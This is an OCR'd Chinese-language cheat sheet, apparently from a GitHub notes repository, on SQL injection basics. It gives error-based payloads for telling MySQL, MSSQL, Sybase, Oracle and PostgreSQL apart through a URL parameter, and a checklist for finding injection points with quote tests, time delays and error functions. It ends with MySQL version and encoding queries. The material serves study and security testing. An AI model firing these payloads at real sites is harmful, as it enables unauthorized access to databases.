 
# sql注入基础知识

## 判断数据库类型

```sql
Mysql: /?param=1 select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
MSSQL: /?param=1 and(1)=convert(int,@@version)--
Sybase: /?param=1 and(1)=convert(int,@@version)--
Oracle >=9.0: /?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select replace(banner,chr(32),chr(58)) from sys.v\_$version where rownum=1)||chr(62))) from dual)—
PostgreSQL: /?param=1 and(1)=cast(version() as numeric)--
```

## 检查注入的思路

- 通过加单引号 双引号看看是否有报错。
    - 有报错（不一定有注入）：
        - 通过拼接语句来进行状态判断
            - and ,or
            
    - 没有报错（有可能是盲注）：
        - 如果关闭错误回显的话 基于报错注入就不可能了。
        - 构造语句利用延时注入和联合注入进行攻击
            - sleep benchmark extractvalue
            
- 看状态码(正常的话是200 注入的话可能会存在500 302等)

- 特殊注入需要额外观察：
    - 宽字节注入
    - url二次注入

# Mysql注入

## 基础知识

### 查看当前数据库版本

```txt
VERSION()
@@VERSION
@@GLOBAL.VERSION
```

### 查看当前编码

```txt
show variables like 'character_set_database';
使用SQL语句：
alter database xxx CHARACTER SET gb2312;
可以设置xxx数据库的编码为gb2312.
```
